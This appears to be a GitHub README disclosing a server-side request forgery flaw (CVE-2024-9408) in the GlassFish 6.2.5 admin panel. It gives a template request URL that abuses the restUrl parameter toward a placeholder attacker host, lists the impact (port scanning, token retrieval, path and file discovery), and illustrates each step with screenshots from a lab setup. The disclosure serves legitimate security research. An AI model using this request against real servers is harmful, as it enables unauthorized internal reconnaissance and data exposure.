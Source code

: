 ## Glassfish 6.2.5 Server Side Request Forgery Vulnerability ( CVE-2024-9408 )

SSRF (Server-Side Request Forgery) is a vulnerability that allows an attacker to force the application to send requests from the server to internal or external resources of the attacker's choosing. This can enable the attacker to perform internal port scanning, discover services accessible only from the server, and bypass firewalls to reach otherwise restricted systems.

**Vulnerable Path** : https://[targetexample]:4848/download/log/?contentSourceId=LogViewer&restUrl=https%3A%2F%2F[evilpayload]

**Research Os** : Ubuntu 22.04 , Windows Server 2019  

**Vulnerable Parameter** : restUrl

### Impact
------------------------------------------------               
- [x] Port Scan and Network Discovery
- [x] Information disclosure
- [x] File Discovery

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/glassfish%20Scenario.jpg)

On GlassFish version 6.2.5, an attacker can exploit the ```restUrl``` parameter within the admin panel to trigger an SSRF vulnerability. In addition to performing port and subnet enumeration, the attacker can leverage the vulnerable GlassFish server to interact with their own machine listening within the network, leading to further exploitation such as path disclosure and file discovery. This significantly expands the attack surface.

### Vulnerability Discovery and Port Scanning
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.129 - Ubuntu(researchServer) Server Glassfish 6.2.5 


![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan1.png)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan2.png)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan3.png)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan4.png)

### Obtain gfresttoken 
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.129 - Ubuntu(researchServer) Server Glassfish 6.2.5 

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/gfresttoken1.PNG)


![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/gfresttoken2.PNG)

### Path Disclosure
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.129 - Ubuntu(researchServer) Server Glassfish 6.2.5 

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/pathdisclosure.PNG)

### File Discovery 
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.129 - Windows Server Glassfish 6.2.5

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery1.PNG)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery2.PNG)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery3.PNG)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery4.PNG)


